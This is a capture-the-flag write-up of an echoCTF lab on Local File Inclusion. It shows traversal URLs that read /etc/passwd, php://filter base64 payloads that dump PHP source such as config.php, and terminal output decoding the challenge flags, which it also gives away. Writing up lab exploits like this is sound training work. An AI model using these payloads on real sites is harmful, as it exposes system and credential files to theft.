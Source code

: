 echoCTF
This is a tutorial based challenge, to teach you how to exploit Local File Inlcusion (LFI) vulnerabilities.
navigate to `http://lfi-tutorial.echocity-f.com/?page=articles.php` and found page= now i will replace it
`http://lfi-tutorial.echocity-f.com/?page=../../../../../etc/passwd`

`root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false ETSCTF:x:1000:65534:ETSCTF_ETCPASSWD_FLAG_HIDDEN_HOLA:/home/ETSCTF:/bin/bash 
`

In the previous step we exploited the LFI vulnerability and read the /etc/passwd file. This time we want to include the php files and print their contents in the page, like we did in the previous step. The problem is that you can't view the PHP code with the use of include function because it executes the code.

In order to achieve that we have to find a way to encode the contents of the PHP files, this can be achieved by the use of php://filter/convert.base64-encode/resource=FILENAME. The url will now become something like `http://lfi-tutorial.echocity-f.com/?page=php://filter/convert.base64-encode/resource=/etc/passwd`

You can later decode the contents by executing this command with the encoded output returned:

enter 
`http://lfi-tutorial.echocity-f.com/?page=php://filter/convert.base64-encode/resource=/etc/passwd` then decode the base64 string
Now read the index.php using `http://lfi-tutorial.echocity-f.com/?page=php://filter/convert.base64-encode/resource=index.php`

Always include sensitive files in your tests, such as config.php, db.php, /admin/, /admin/ETSCTF.html.

There is a flag hidden in the config.php, find the flag and enter it here as an answer to complete the challenge (you need to find this flag by yourself).

`┌──(root㉿kali)-[/home/kali]
└─# code=PD9waHANCg0KJGZsYWcgPSAiRVRTQ1RGX0ZMQUdfSU5fQ09ORjE4X0ZJTEUiOw0KDQo/Pg0K  
 `                                                                                                                       
`
┌──(root㉿kali)-[/home/kali]
└─# echo $code | base64 -d
<?php

$flag = "ETSCTF_FLAG_IN_CONF18_FILE";

?>
